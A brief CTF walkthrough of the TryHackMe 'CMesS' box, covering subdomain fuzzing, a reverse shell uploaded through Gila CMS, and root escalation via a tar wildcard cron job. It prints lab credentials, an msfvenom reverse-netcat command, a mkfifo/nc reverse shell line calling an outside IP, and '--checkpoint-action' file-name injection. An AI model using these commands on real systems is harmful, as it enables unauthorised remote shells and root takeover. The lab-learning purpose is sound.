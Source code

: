 ```yaml
---
title: CMesS
date: 2022-12-23 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [security, cmd, gila, tar, dns, wfuzz]
---
```


<https://tryhackme.com/room/cmess> Can you root this Gila CMS box?

# Notes

Nmap scan only shows 2 results ssh and port 80. Checking the site we find a gila cms but spending an hour poking around doesn't lead to anything. Gobuster results dont find anything.

# wfuzz

- `wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-
top1million-20000.txt --hc 400,404,403 -H "Host: FUZZ.cmess.thm" -u 
http://cmess.thm -t 100 -hw 290`

getting waaaay to many responses so we can use --hw

we find dev.cmess.thm lets add it to the /etc/hosts and enumerate

- `andre@cmess.thm:KPFTN_f2yxe%`

now that we have creds we can login and upload revshell to /tmp and edit the htaccess to allow and after setting up a listener we have a www-data shell

# privesc

crontab

*/2 *   * * *   root    cd /home/mandre/backup && tar -zcf /tmp/andre_backup.tar.gz *

so anything we put into the /home/mandre/backup dir will be backed up to tmp every 2 mins.

checking linpeas can find `-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak`

su to anre or ssh in `andre:UQfsdCB7aAP6`

# wildcard esc

1. create payload `msfvenom -p cmd/unix/reverse_netcat lhost 10.2.3.64 lport=6679 R`
2. copy and paste the payload 
3. `echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh`
4. `echo "" > "--checkpoint-action=exec=sh shell.sh"`
5. `echo "" > --checkpoint=1`

have listener setup and wait for response and collect root flag!